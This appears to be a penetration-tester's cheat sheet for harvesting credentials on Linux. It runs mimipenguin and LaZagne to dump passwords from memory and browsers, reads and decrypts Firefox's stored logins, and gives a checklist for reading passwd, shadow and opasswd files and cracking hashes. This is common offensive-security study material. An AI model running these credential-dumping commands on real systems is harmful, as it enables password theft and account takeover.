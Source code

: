 ### Memory and Cache

#### Searching Memory and Cache with [mimipenguin.py](https://raw.githubusercontent.com/huntergregal/mimipenguin/master/mimipenguin.py)
```Shell
sudo python3 mimipenguin.py
```

#### Searching Memory and Cache with [mimipenguin.sh](https://raw.githubusercontent.com/huntergregal/mimipenguin/master/mimipenguin.sh)
```Shell
sudo bash mimipenguin.sh
```

#### Searching Memory - LaZagne
```Shell
sudo python2.7 laZagne.py all
```

### Browsers

#### Firefox Stored Credentials
```Shell
ls -l .mozilla/firefox/ | grep default
```

```Shell
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#### Decrypting Firefox Credentials
```Shell
python3.9 firefox_decrypt.py
```
It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.

#### Browsers - LaZagne
```Shell
python3 laZagne.py browsers
```


## Passwd, Shadow & Opasswd

### Passwd File

<input type="checkbox" /> Determine if `/etc/passwd` is writeable
<input type="checkbox" /> See if Shadow File is accessible
<input type="checkbox" /> See if `/etc/security/opasswd` is readable
<input type="checkbox" /> Crack hashes
<input type="checkbox" /> Check for credential re-use
